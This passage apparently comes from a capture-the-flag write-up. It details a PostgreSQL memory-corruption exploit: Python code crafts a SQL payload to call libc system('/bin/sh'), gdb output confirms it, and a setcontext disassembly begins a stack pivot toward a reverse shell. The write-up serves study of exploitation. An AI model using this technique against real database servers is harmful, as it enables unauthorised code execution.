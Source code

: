 `rdi` has wrong MSB - it happens sometimes. To avoid such problem it is enough to just run some random SQL queries before executing our payload.


```py
SYSTEM = 0x4c3a0

def probe():
    conn.commit(); cur = conn.cursor()
    cur.execute(b"SELECT repeat('1s0', 1000)") # fix rdi MSB

    fake_struct = flat(
        b'/bin/sh\x00',
        p64(rdi+0x10), # point to address below
        p64(libc_base+SYSTEM)
    )

    cur.execute(flat(
        b"SELECT '\\x",
        b'deadbeef', # add 4B padding to align rest of payload to 8B
        fake_struct.hex().encode(),
        b'aaaaaaaa' * 0x400000,
        b"'::bytea, bpchar_sum('1', '",
        payload.strip(b'\x00'), # no null bytes allowed
        b"')"
    ))
```

quick check in `gdb`:

```c
 RDI  0x7f879964f050 ◂— 0x68732f6e69622f /* '/bin/sh' */

 ► 0x7f87a752f3a0 <system>                 test   rdi, rdi
```

Cool, but that approach unfortunately will not work - shell is spawned inside main `postgres` process, and we cannot interact with it. Also eight bytes is not enough to store `/readflag\x00` for `system`. The conclusion is that we need to pop a reverse shell, but we have only one function to call. We were looking for some nice gadgets that will allow us to do a `stack pivot` and craft a simple `ROP chain` in our big chunk of memory. We had a hard time finding a good gadget, so we decided to go with `setcontext` libc function.

```c
pwndbg> disassemble setcontext
Dump of assembler code for function setcontext:
   0x00007f87a7523ef0 <+0>:	push   rdi
   0x00007f87a7523ef1 <+1>:	lea    rsi,[rdi+0x128]
   0x00007f87a7523ef8 <+8>:	xor    edx,edx
   0x00007f87a7523efa <+10>:	mov    edi,0x2
   0x00007f87a7523eff <+15>:	mov    r10d,0x8
   0x00007f87a7523f05 <+21>:	mov    eax,0xe
   0x00007f87a7523f0a <+26>:	syscall
   0x00007f87a7523f0c <+28>:	pop    rdx
   0x00007f87a7523f0d <+29>:	cmp    rax,0xfffffffffffff001
   0x00007f87a7523f13 <+35>:	jae    0x7f87a7523f70 <setcontext+128>
   0x00007f87a7523f15 <+37>:	mov    rcx,QWORD PTR [rdx+0xe0]
   0x00007f87a7523f1c <+44>:	fldenv [rcx]
   0x00007f87a7523f1e <+46>:	ldmxcsr DWORD PTR [rdx+0x1c0]
   0x00007f87a7523f25 <+53>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x00007f87a7523f2c <+60>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x00007f87a7523f33 <+67>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x00007f87a7523f37 <+71>:	mov    r12,QWORD PTR [rdx+0x48]
   0x00007f87a7523f3b <+75>:	mov    r13,QWORD PTR [rdx+0x50]
   0x00007f87a7523f3f <+79>:	mov    r14,QWORD PTR [rdx+0x58]
   0x00007f87a7523f43 <+83>:	mov    r15,QWORD PTR [rdx+0x60]
   0x00007f87a7523f47 <+87>:	mov    rcx,QWORD PTR [rdx+0xa8]
```